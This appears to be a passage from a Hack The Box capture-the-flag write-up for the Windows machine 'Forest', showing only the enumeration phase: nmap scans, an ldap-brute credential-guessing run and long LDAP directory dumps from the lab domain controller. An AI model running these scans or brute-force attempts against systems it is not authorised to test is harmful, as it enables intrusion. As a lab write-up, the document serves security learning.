


# Forest

| | |
|---|---|
| **OS** | Windows |
| **Difficulty** | Easy |
| **Topics** | Active Directory, RPC Enumeration, ASREProast Attack, DCSync Attack |

---

## 📁 Folder Structure

- [`content/`](content/) — screenshots and inline references used in the write-up
- [`nmap/`](nmap/) — raw nmap output files
- [`exploit/`](exploit/) — exploit scripts, binaries, payloads, and other tools used

---

# Enumeration

## Nmap

SYN Stealth Scan

```bash
sudo nmap -p- -sS --open --min-rate 5000 -Pn -n -v 10.10.10.161 -oN AllPorts
```

Result:

```markdown
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49684/tcp open  unknown
49706/tcp open  unknown
49959/tcp open  unknown
```

TCP Full Scan: 

```bash
nmap -sCV -p53,88,135,139,389,445,464,593,636,3269,5985,9389,47001 -Pn -n -v 10.10.10.161 -oN FullScan
```

Result: 

```markdown
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-08-09 03:12:30Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  ``!�)V       Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2023-08-08T20:12:37-07:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 2h26m35s, deviation: 4h02m30s, median: 6m35s
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2023-08-09T03:12:38
|_  start_date: 2023-08-09T02:58:44
```

LDAP User Enumeration

```markdown
nmap --script=ldap-brute -p389 -Pn -n 10.10.10.161
```

```markdown
| ldap-brute: 
|   root:<empty> => Valid credentials
|   admin:<empty> => Valid credentials
|   administrator:<empty> => Valid credentials
|   webadmin:<empty> => Valid credentials
|   sysadmin:<empty> => Valid credentials
|   netadmin:<empty> => Valid credentials
|   guest:<empty> => Valid credentials
|   user:<empty> => Valid credentials
|   web:<empty> => Valid credentials
|_  test:<empty> => Valid credentials
```

LDAP ROOTDSE:  

What is LDAP DSE?

The root DSE is **the entry at the top of the LDAP server directory information tree**. All the namingcontexts (suffixes) in the LDAP server are directly below the root DSE. The root DSE contains information about the LDAP server, including the namingcontexts that are configured and the capabilities of the server.

```markdown
nmap --script=ldap-rootdse -p445,389,88 -Pn -n 10.10.10.161
```

Result:

```markdown
389/tcp open  ldap
| ldap-rootdse: 
| LDAP Results
|   <ROOT>
|       currentTime: 20230809032106.0Z
|       subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=htb,DC=local
|       dsServiceName: CN=NTDS Settings,CN=FOREST,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=htb,DC=local
|       namingContexts: DC=htb,DC=local
|       namingContexts: CN=Configuration,DC=htb,DC=local
|       namingContexts: CN=Schema,CN=Configuration,DC=htb,DC=local
|       namingContexts: DC=DomainDnsZones,DC=htb,DC=local
|       namingContexts: DC=ForestDnsZones,DC=htb,DC=local
|       defaultNamingContext: DC=htb,DC=local
|       schemaNamingContext: CN=Schema,CN=Configuration,DC=htb,DC=local
|       configurationNamingContext: CN=Configuration,DC=htb,DC=local
|       rootDomainNamingContext: DC=htb,DC=local
|       supportedControl: 1.2.840.113556.1.4.319
|       supportedControl: 1.2.840.113556.1.4.801
|       supportedControl: 1.2.840.113556.1.4.473
|       supportedControl: 1.2.840.113556.1.4.528
|       supportedControl: 1.2.840.113556.1.4.417
|       supportedControl: 1.2.840.113556.1.4.619
|       supportedControl: 1.2.840.113556.1.4.841
|       supportedControl: 1.2.840.113556.1.4.529
|       supportedControl: 1.2.840.113556.1.4.805
|       supportedControl: 1.2.840.113556.1.4.521
|       supportedControl: 1.2.840.113556.1.4.970
|       supportedControl: 1.2.840.113556.1.4.1338
|       supportedControl: 1.2.840.113556.1.4.474
|       supportedControl: 1.2.840.113556.1.4.1339
|       supportedControl: 1.2.840.113556.1.4.1340
|       supportedControl: 1.2.840.113556.1.4.1413
|       supportedControl: 2.16.840.1.113730.3.4.9
|       supportedControl: 2.16.840.1.113730.3.4.10
|       supportedControl: 1.2.840.113556.1.4.1504
|       supportedControl: 1.2.840.113556.1.4.1852
|       supportedControl: 1.2.840.113556.1.4.802
|       supportedControl: 1.2.840.113556.1.4.1907
|       supportedControl: 1.2.840.113556.1.4.1948
|       supportedControl: 1.2.840.113556.1.4.1974
|       supportedControl: 1.2.840.113556.1.4.1341
|       supportedControl: 1.2.840.113556.1.4.2026
|       supportedControl: 1.2.840.113556.1.4.2064
|       supportedControl: 1.2.840.113556.1.4.2065
|       supportedControl: 1.2.840.113556.1.4.2066
|       supportedControl: 1.2.840.113556.1.4.2090
|       supportedControl: 1.2.840.113556.1.4.2205
|       supportedControl: 1.2.840.113556.1.4.2204
|       supportedControl: 1.2.840.113556.1.4.2206
|       supportedControl: 1.2.840.113556.1.4.2211
|       supportedControl: 1.2.840.113556.1.4.2239
|       supportedControl: 1.2.840.113556.1.4.2255
|       supportedControl: 1.2.840.113556.1.4.2256
|       supportedControl: 1.2.840.113556.1.4.2309
|       supportedLDAPVersion: 3
|       supportedLDAPVersion: 2
|       supportedLDAPPolicies: MaxPoolThreads
|       supportedLDAPPolicies: MaxPercentDirSyncRequests
|       supportedLDAPPolicies: MaxDatagramRecv
|       supportedLDAPPolicies: MaxReceiveBuffer
|       supportedLDAPPolicies: InitRecvTimeout
|       supportedLDAPPolicies: MaxConnections
|       supportedLDAPPolicies: MaxConnIdleTime
|       supportedLDAPPolicies: MaxPageSize
|       supportedLDAPPolicies: MaxBatchReturnMessages
|       supportedLDAPPolicies: MaxQueryDuration
|       supportedLDAPPolicies: MaxDirSyncDuration
|       supportedLDAPPolicies: MaxTempTableSize
|       supportedLDAPPolicies: MaxResultSetSize
|       supportedLDAPPolicies: MinResultSets
|       supportedLDAPPolicies: MaxResultSetsPerConn
|       supportedLDAPPolicies: MaxNotificationPerConn
|       supportedLDAPPolicies: MaxValRange
|       supportedLDAPPolicies: MaxValRangeTransitive
|       supportedLDAPPolicies: ThreadMemoryLimit
|       supportedLDAPPolicies: SystemMemoryLimitPercent
|       highestCommittedUSN: 950970
|       supportedSASLMechanisms: GSSAPI
|       supportedSASLMechanisms: GSS-SPNEGO
|       supportedSASLMechanisms: EXTERNAL
|       supportedSASLMechanisms: DIGEST-MD5
|       dnsHostName: FOREST.htb.local
|       ldapServiceName: htb.local:forest$@HTB.LOCAL
|       serverName: CN=FOREST,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=htb,DC=local
|       supportedCapabilities: 1.2.840.113556.1.4.800
|       supportedCapabilities: 1.2.840.113556.1.4.1670
|       supportedCapabilities: 1.2.840.113556.1.4.1791
|       supportedCapabilities: 1.2.840.113556.1.4.1935
|       supportedCapabilities: 1.2.840.113556.1.4.2080
|       supportedCapabilities: 1.2.840.113556.1.4.2237
|       isSynchronized: TRUE
|       isGlobalCatalogReady: TRUE
|       domainFunctionality: 7
|       forestFunctionality: 7
|_      domainControllerFunctionality: 7
```

Notes:

```markdown
defaultNamingContext: --> Contains the current domain being enumerated
rootDomainNamingContext: --> Contains the root domain to which the child domain belongs to. 
```

Based on this, we can see the fields `defaultNamingContext: DC=htb,DC=local` and `rootDomainNamingContext: DC=htb,DC=local` are the same, which indicates that we are facing the root domain. 

LDAP Search 

The ldap-search script queries the root DSE for the namingContexts and/or defaultNamingContexts, which it sets as base if no base object was specified

```bash
nmap --script=ldap-search -p389 -Pn -n 10.10.10.161 -oN LDAPSearchNmapScan
```

Result: 

```bash
PORT    STATE SERVICE
389/tcp open  ldap
| ldap-search: 
|   Context: DC=htb,DC=local
|     dn: DC=htb,DC=local
|         objectClass: top
|         objectClass: domain
|         objectClass: domainDNS
|         distinguishedName: DC=htb,DC=local
|         instanceType: 5
|         whenCreated: 2019/09/18 17:45:49 UTC
|         whenChanged: 2023/08/09 02:58:34 UTC
|         subRefs: DC=ForestDnsZones,DC=htb,DC=local
|         subRefs: DC=DomainDnsZones,DC=htb,DC=local
|         subRefs: CN=Configuration,DC=htb,DC=local
|         uSNCreated: 4099
|         dSASignature: \x01\x00\x00\x00(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00:\xA3k#YyAJ\xB9Y_\x82h\x9A\x08q
|         uSNChanged: 888873
|         name: htb
|         objectGUID: dff0c71a-49a9-264b-8c7b-52e3e2cb6eab
|         replUpToDateVector: \x02\x00\x00\x00\x00\x00\x00\x00\x11\x00\x00\x00\x00\x00\x00\x00\x80+\xBA\x07\xA0+|B\x8E\x91\xB7\x8C\xE2\xAFM\x9B
|         \x00\x00\x00\x00\x00\xD4\xBD>\x17\x03\x00\x00\x00i\xB5Y\x1F\xFA\x8B\xA9G\xB3\xB0R.\xA0\xD4b\xEC\x16P\x03\x00\x00\x00\x00\x00\x01\xD5\xAA\x13\x03\x00\x00\x00:\xA3k#YyAJ\xB9Y_\x82h\x9A\x08q\x05\xA0\x00\x00\x00\x00\x00\x00_!\x99\x13\x03\x00\x00\x00\xFD!?9\xEE\x966L\xB0C\xBC\x0Fp\x8Du\xBA\x19\x10\x04\x00\x00\x00\x00\x00n\xC9=\x17\x03\x00\x00\x00\x10<\x01A\xB4\x8C\x9DE\x88\xE2z\xBC\x05\x8E\xE3\xD7\x150\x03\x00\x00\x00\x00\x00\xD5\xD7\xA6\x13\x03\x00\x00\x00\xB50\xC6a\xA2A\xB0E\xB14A\x1A\xB5N1c\x08\xD0\x00\x00\x00\x00\x00\x00\x9F=\x99\x13\x03\x00\x00\x00N|cxf\x16\xECI\xAB\x9C\xCDQ\xEE`H\x81\x13p\x02\x00\x00\x00\x00\x00\xDDm\xA0\x13\x03\x00\x00\x001\xF4\xC6\x8BEpyC\xA6\x9B\x99\xF2\xB4\x8D&p\x0C\x10\x01\x00\x00\x00\x00\x00\x86\xC5\x99\x13\x03\x00\x00\x00\xB7\x02\xFE\x8F
|         \x00\x00\x00\x00\x00\x99\xC5>\x17\x03\x00\x00\x00\x12\xE3\xA9\xF1\xC0\xBA\xB7O\xAEj\x87\xBC\xDE:\xA7-\x07\xC0\x00\x00\x00\x00\x00\x00\xC37\x99\x13\x03\x00\x00\x00\x9E\xBD\x80\xF9D\x13\xFBE\xBA\xD8\x01
|         \xE0\x8E\x1B\x8F\x1C\xD0\x0C\x00\x00\x00\x00\x00\xB1\xAF>\x17\x03\x00\x00\x00
|         creationTime: 133360235143344804
|         forceLogoff: -9223372036854775808
|         lockoutDuration: -18000000000
|         lockOutObservationWindow: -18000000000
|         lockoutThreshold: 0
|         maxPwdAge: -9223372036854775808
|         minPwdAge: -864000000000
|         minPwdLength: 7
|         modifiedCountAtLastProm: 0
|         nextRid: 1000
|         pwdProperties: 0
|         pwdHistoryLength: 24
|         objectSid: 1-5-21-3072663084-364016917-1341370565
|         serverState: 1
|         uASCompat: 1
|         modifiedCount: 1
|         auditingPolicy: \x00\x01
|         nTMixedDomain: 0
|         rIDManagerReference: CN=RID Manager$,CN=System,DC=htb,DC=local
|         fSMORoleOwner: CN=NTDS Settings,CN=FOREST,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=htb,DC=local
|         systemFlags: -1946157056
|         wellKnownObjects: B:32:6227F0AF1FC2410D8E3BB10615BB5B0F:CN=NTDS Quotas,DC=htb,DC=local
|         wellKnownObjects: B:32:F4BE92A4C777485E878E9421D53087DB:CN=Microsoft,CN=Program Data,DC=htb,DC=local
|         wellKnownObjects: B:32:09460C08AE1E4A4EA0F64AEE7DAA1E5A:CN=Program Data,DC=htb,DC=local
|         wellKnownObjects: B:32:22B70C67D56E4EFB91E9300FCA3DC1AA:CN=ForeignSecurityPrincipals,DC=htb,DC=local
|         wellKnownObjects: B:32:18E2EA80684F11D2B9AA00C04F79F805:CN=Deleted Objects,DC=htb,DC=local
|         wellKnownObjects: B:32:2FBAC1870ADE11D297C400C04FD8D5CD:CN=Infrastructure,DC=htb,DC=local
|         wellKnownObjects: B:32:AB8153B7768811D1ADED00C04FD8D5CD:CN=LostAndFound,DC=htb,DC=local
|         wellKnownObjects: B:32:AB1D30F3768811D1ADED00C04FD8D5CD:CN=System,DC=htb,DC=local
|         wellKnownObjects: B:32:A361B2FFFFD211D1AA4B00C04FD7D83A:OU=Domain Controllers,DC=htb,DC=local
|         wellKnownObjects: B:32:AA312825768811D1ADED00C04FD8D5CD:CN=Computers,DC=htb,DC=local
|         wellKnownObjects: B:32:A9D1CA15768811D1ADED00C04FD8D5CD:CN=Users,DC=htb,DC=local
|         objectCategory: CN=Domain-DNS,CN=Schema,CN=Configuration,DC=htb,DC=local
|         isCriticalSystemObject: TRUE
|         gPLink: [LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=htb,DC=local;0]
|         dSCorePropagationData: 1601/01/01 00:00:00 UTC
|         otherWellKnownObjects: B:32:683A24E2E8164BD3AF86AC3C2CF3F981:CN=Keys,DC=htb,DC=local
|         otherWellKnownObjects: B:32:1EB93889E40C45DF9F0C64D23BBB6237:CN=Managed Service Accounts,DC=htb,DC=local
|         masteredBy: CN=NTDS Settings,CN=FOREST,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=htb,DC=local
|         ms-DS-MachineAccountQuota: 10
|         msDS-Behavior-Version: 7
|         msDS-PerUserTrustQuota: 1
|         msDS-AllUsersTrustQuota: 1000
|         msDS-PerUserTrustTombstonesQuota: 10
|         msDs-masteredBy: CN=NTDS Settings,CN=FOREST,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=htb,DC=local
|         msDS-IsDomainFor: CN=NTDS Settings,CN=FOREST,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=htb,DC=local
|         msDS-NcType: 0
|         msDS-ExpirePasswordsOnSmartCardOnlyAccounts: TRUE
|         dc: htb
|     dn: CN=Users,DC=htb,DC=local
|         objectClass: top
|         objectClass: container
|         cn: Users
|         description: Default container for upgraded user accounts
|         distinguishedName: CN=Users,DC=htb,DC=local
|         instanceType: 4
|         whenCreated: 2019/09/18 17:45:57 UTC
|         whenChanged: 2019/09/23 22:51:14 UTC
|         uSNCreated: 5888
|         uSNChanged: 94253
|         showInAdvancedViewOnly: FALSE
|         name: Users
|         objectGUID: 28cbed1a-9b7f-1e49-9fce-a053e95892cd
|         systemFlags: -1946157056
|         objectCategory: CN=Container,CN=Schema,CN=Configuration,DC=htb,DC=local
|         isCriticalSystemObject: TRUE
|         dSCorePropagationData: 2023/08/09 03:36:35 UTC
|         dSCorePropagationData: 2023/08/09 03:36:35 UTC
|         dSCorePropagationData: 2023/08/09 03:36:35 UTC
|         dSCorePropagationData: 2023/08/09 03:36:35 UTC
|         dSCorePropagationData: 1601/01/01 00:00:00 UTC
|     dn: CN=Computers,DC=htb,DC=local
|         objectClass: top
|         objectClass: container
|         cn: Computers
|         description: Default container for upgraded computer accounts
|         distinguishedName: CN=Computers,DC=htb,DC=local
|         instanceType: 4
|         whenCreated: 2019/09/18 17:45:57 UTC
|         whenChanged: 2019/09/23 22:51:14 UTC
|         uSNCreated: 5889
|         uSNChanged: 94358
|         showInAdvancedViewOnly: FALSE
|         name: Computers
|         objectGUID: 5b37dcc-7dd4-c46-a9ca-922785b235ed
|         systemFlags: -1946157056
|         objectCategory: CN=Container,CN=Schema,CN=Configuration,DC=htb,DC=local
|         isCriticalSystemObject: TRUE
|         dSCorePropagationData: 2023/08/09 03:36:35 UTC
|         dSCorePropagationData: 2023/08/09 03:36:35 UTC
|         dSCorePropagationData: 2023/08/09 03:36:35 UTC
|         dSCorePropagationData: 2023/08/09 03:36:35 UTC
|         dSCorePropagationData: 1601/01/01 00:00:00 UTC
|     dn: OU=Domain Controllers,DC=htb,DC=local
|         objectClass: top
|         objectClass: organizationalUnit
|         ou: Domain Controllers
|         description: Default container for domain controllers
|         distinguishedName: OU=Domain Controllers,DC=htb,DC=local
|         instanceType: 4
|         whenCreated: 2019/09/18 17:45:57 UTC
|         whenChanged: 2019/09/23 22:51:14 UTC
|         uSNCreated: 6031
|         uSNChanged: 94364
|         showInAdvancedViewOnly: FALSE
|         name: Domain Controllers
|         objectGUID: 9213180-6637-b24b-ba74-30dec65b543f
|         systemFlags: -1946157056
|         objectCategory: CN=Organizational-Unit,CN=Schema,CN=Configuration,DC=htb,DC=local
|         isCriticalSystemObject: TRUE
|         gPLink: [LDAP://CN={6AC1786C-016F-11D2-945F-00C04fB984F9},CN=Policies,CN=System,DC=htb,DC=local;0]
|         dSCorePropagationData: 2023/08/09 03:36:35 UTC
|         dSCorePropagationData: 2023/08/09 03:36:35 UTC
|         dSCorePropagationData: 2023/08/09 03:36:35 UTC
|         dSCorePropagationData: 2023/08/09 03:36:35 UTC
|         dSCorePropagationData: 1601/01/01 00:00:00 UTC
|     dn: CN=System,DC=htb,DC=local
|         objectClass: top
|         objectClass: container
|         cn: System
|         description: Builtin system settings
|         distinguishedName: CN=System,DC=htb,DC=local
|         instanceType: 4
|         whenCreated: 2019/09/18 17:45:57 UTC
|         whenChanged: 2019/09/23 22:51:14 UTC
|         uSNCreated: 5890
|         uSNChanged: 94382
|         showInAdvancedViewOnly: TRUE
|         name: System
|         objectGUID: 67d6aff2-1c1c-e749-bb38-347466ed90a0
|         systemFlags: -1946157056
|         objectCategory: CN=Container,CN=Schema,CN=Configuration,DC=htb,DC=local
|         isCriticalSystemObject: TRUE
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 2023/08/09 03:36:35 UTC
|         dSCorePropagationData: 1601/01/01 00:00:00 UTC
|     dn: CN=LostAndFound,DC=htb,DC=local
|         objectClass: top
|         objectClass: lostAndFound
|         cn: LostAndFound
|         description: Default container for orphaned objects
|         distinguishedName: CN=LostAndFound,DC=htb,DC=local
|         instanceType: 4
|         whenCreated: 2019/09/18 17:45:57 UTC
|         whenChanged: 2019/09/18 17:45:57 UTC
|         uSNCreated: 5886
|         uSNChanged: 5886
|         showInAdvancedViewOnly: TRUE
|         name: LostAndFound
|         objectGUID: affa7481-4f3c-b943-9768-50bfbbab170
|         systemFlags: -1946157056
|         objectCategory: CN=Lost-And-Found,CN=Schema,CN=Configuration,DC=htb,DC=local
|         isCriticalSystemObject: TRUE
|         dSCorePropagationData: 2023/08/09 03:36:35 UTC
|         dSCorePropagationData: 2023/08/09 03:36:35 UTC
|         dSCorePropagationData: 2023/08/09 03:36:35 UTC
|         dSCorePropagationData: 2023/08/09 03:36:29 UTC
|         dSCorePropagationData: 1601/01/01 00:00:00 UTC
|     dn: CN=Infrastructure,DC=htb,DC=local
|         objectClass: top
|         objectClass: infrastructureUpdate
|         cn: Infrastructure
|         distinguishedName: CN=Infrastructure,DC=htb,DC=local
|         instanceType: 4
|         whenCreated: 2019/09/18 17:45:57 UTC
|         whenChanged: 2019/09/23 22:51:16 UTC
|         uSNCreated: 6032
|         uSNChanged: 94878
|         showInAdvancedViewOnly: TRUE
|         name: Infrastructure
|         objectGUID: 8d39cfb7-eb9-ee4b-b610-a65092fa6116
|         fSMORoleOwner: CN=NTDS Settings,CN=FOREST,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=htb,DC=local
|         systemFlags: -1946157056
|         objectCategory: CN=Infrastructure-Update,CN=Schema,CN=Configuration,DC=htb,DC=local
|         isCriticalSystemObject: TRUE
|         dSCorePropagationData: 2023/08/09 03:36:38 UTC
|         dSCorePropagationData: 2023/08/09 03:36:38 UTC
|         dSCorePropagationData: 2023/08/09 03:36:38 UTC
|         dSCorePropagationData: 2023/08/09 03:36:35 UTC
|         dSCorePropagationData: 1601/01/01 00:00:00 UTC
|     dn: CN=ForeignSecurityPrincipals,DC=htb,DC=local
|         objectClass: top
|         objectClass: container
|         cn: ForeignSecurityPrincipals
|         description: Default container for security identifiers (SIDs) associated with objects from external, trusted domains
|         distinguishedName: CN=ForeignSecurityPrincipals,DC=htb,DC=local
|         instanceType: 4
|         whenCreated: 2019/09/18 17:45:57 UTC
|         whenChanged: 2019/09/23 22:51:16 UTC
|         uSNCreated: 6033
|         uSNChanged: 94881
|         showInAdvancedViewOnly: FALSE
|         name: ForeignSecurityPrincipals
|         objectGUID: a477a65d-a1f2-994e-a898-19db9fe9b833
|         systemFlags: -1946157056
|         objectCategory: CN=Container,CN=Schema,CN=Configuration,DC=htb,DC=local
|         isCriticalSystemObject: TRUE
|         dSCorePropagationData: 2023/08/09 03:36:38 UTC
|         dSCorePropagationData: 2023/08/09 03:36:38 UTC
|         dSCorePropagationData: 2023/08/09 03:36:38 UTC
|         dSCorePropagationData: 2023/08/09 03:36:35 UTC
|         dSCorePropagationData: 1601/01/01 00:00:00 UTC
|     dn: CN=Program Data,DC=htb,DC=local
|         objectClass: top
|         objectClass: container
|         cn: Program Data
|         description: Default location for storage of application data.
|         distinguishedName: CN=Program Data,DC=htb,DC=local
|         instanceType: 4
|         whenCreated: 2019/09/18 17:45:57 UTC
|         whenChanged: 2019/09/23 22:51:16 UTC
|         uSNCreated: 6034
|         uSNChanged: 94959
|         showInAdvancedViewOnly: TRUE
|         name: Program Data
|         objectGUID: 1d92bace-e528-4d43-b0f9-d79a5ffdd984
|         objectCategory: CN=Container,CN=Schema,CN=Configuration,DC=htb,DC=local
|         dSCorePropagationData: 2023/08/09 03:36:39 UTC
|         dSCorePropagationData: 2023/08/09 03:36:39 UTC
|         dSCorePropagationData: 2023/08/09 03:36:39 UTC
|         dSCorePropagationData: 2023/08/09 03:36:35 UTC
|         dSCorePropagationData: 1601/01/01 00:00:00 UTC
|     dn: CN=Microsoft,CN=Program Data,DC=htb,DC=local
|         objectClass: top
|         objectClass: container
|         cn: Microsoft
|         description: Default location for storage of Microsoft application data.
|         distinguishedName: CN=Microsoft,CN=Program Data,DC=htb,DC=local
|         instanceType: 4
|         whenCreated: 2019/09/18 17:45:57 UTC
|         whenChanged: 2019/09/23 22:51:16 UTC
|         uSNCreated: 6035
|         uSNChanged: 94962
|         showInAdvancedViewOnly: TRUE
|         name: Microsoft
|         objectGUID: 43e1245-94ce-2447-a37e-32b7816f8890
|         objectCategory: CN=Container,CN=Schema,CN=Configuration,DC=htb,DC=local
|         dSCorePropagationData: 2023/08/09 03:36:39 UTC
|         dSCorePropagationData: 2023/08/09 03:36:39 UTC
|         dSCorePropagationData: 2023/08/09 03:36:39 UTC
|         dSCorePropagationData: 2023/08/09 03:36:39 UTC
|         dSCorePropagationData: 1601/01/01 00:00:00 UTC
|     dn: CN=NTDS Quotas,DC=htb,DC=local
|         objectClass: top
|         objectClass: msDS-QuotaContainer
|         cn: NTDS Quotas
|         description: Quota specifications container
|         distinguishedName: CN=NTDS Quotas,DC=htb,DC=local
|         instanceType: 4
|         whenCreated: 2019/09/18 17:45:57 UTC
|         whenChanged: 2019/09/23 22:51:16 UTC
|         uSNCreated: 6036
|         uSNChanged: 94965
|         showInAdvancedViewOnly: TRUE
|         name: NTDS Quotas
|         objectGUID: ca57256f-107a-54d-b14d-f4d9a01c1d7f
|         systemFlags: -2147483648
|         objectCategory: CN=ms-DS-Quota-Container,CN=Schema,CN=Configuration,DC=htb,DC=local
|         isCriticalSystemObject: TRUE
|         dSCorePropagationData: 2023/08/09 03:36:39 UTC
|         dSCorePropagationData: 2023/08/09 03:36:39 UTC
|         dSCorePropagationData: 2023/08/09 03:36:39 UTC
|         dSCorePropagationData: 2023/08/09 03:36:35 UTC
|         dSCorePropagationData: 1601/01/01 00:00:00 UTC
|         msDS-TombstoneQuotaFactor: 100
|     dn: CN=Managed Service Accounts,DC=htb,DC=local
|         objectClass: top
|         objectClass: container
|         cn: Managed Service Accounts
|         description: Default container for managed service accounts
|         distinguishedName: CN=Managed Service Accounts,DC=htb,DC=local
|         instanceType: 4
|         whenCreated: 2019/09/18 17:45:57 UTC
|         whenChanged: 2019/09/23 22:51:16 UTC
|         uSNCreated: 6037
|         uSNChanged: 94968
|         showInAdvancedViewOnly: FALSE
|         name: Managed Service Accounts
|         objectGUID: 7032895e-f174-8b49-9383-782c69206e2f
|         objectCategory: CN=Container,CN=Schema,CN=Configuration,DC=htb,DC=local
|         dSCorePropagationData: 2023/08/09 03:36:39 UTC
|         dSCorePropagationData: 2023/08/09 03:36:39 UTC
|         dSCorePropagationData: 2023/08/09 03:36:39 UTC
|         dSCorePropagationData: 2023/08/09 03:36:35 UTC
|         dSCorePropagationData: 1601/01/01 00:00:00 UTC
|     dn: CN=Keys,DC=htb,DC=local
|     dn: CN=WinsockServices,CN=System,DC=htb,DC=local
|         objectClass: top
|         objectClass: container
|         cn: WinsockServices
|         distinguishedName: CN=WinsockServices,CN=System,DC=htb,DC=local
|         instanceType: 4
|         whenCreated: 2019/09/18 17:45:57 UTC
|         whenChanged: 2019/09/23 22:51:14 UTC
|         uSNCreated: 5891
|         uSNChanged: 94385
|         showInAdvancedViewOnly: TRUE
|         name: WinsockServices
|         objectGUID: 8c2e61b-ae0-fa42-a4fe-9fd92b172f8
|         objectCategory: CN=Container,CN=Schema,CN=Configuration,DC=htb,DC=local
|         isCriticalSystemObject: TRUE
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 1601/01/01 00:00:00 UTC
|     dn: CN=RpcServices,CN=System,DC=htb,DC=local
|         objectClass: top
|         objectClass: container
|         objectClass: rpcContainer
|         cn: RpcServices
|         distinguishedName: CN=RpcServices,CN=System,DC=htb,DC=local
|         instanceType: 4
|         whenCreated: 2019/09/18 17:45:57 UTC
|         whenChanged: 2019/09/23 22:51:14 UTC
|         uSNCreated: 5892
|         uSNChanged: 94388
|         showInAdvancedViewOnly: TRUE
|         name: RpcServices
|         objectGUID: 4b38ee81-ccf4-d74a-a8f4-298649a6158b
|         systemFlags: -1946157056
|         objectCategory: CN=Rpc-Container,CN=Schema,CN=Configuration,DC=htb,DC=local
|         isCriticalSystemObject: TRUE
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 2023/08/09 03:36:36 UTC
|         dSCorePropagationData: 1601/01/01 00:00:00 UTC
|     dn: CN=FileLinks,CN=System,DC=htb,DC=local
|         objectClass: top
|         objectClass: fileLinkTracking
|         cn: FileLinks
|         distinguishedName: CN=FileLinks,CN=System,DC=htb,DC=local
|         instanceType: 4
|         whenCreated: 2019/09/18 17:45:57 UTC
|         whenChanged: 2019/09/23 22:51:14 UTC
|         uSNCreated: 5893
|         uSNChanged: 94391
|         showInAdvancedViewOnly: TRUE
|         name: FileLinks
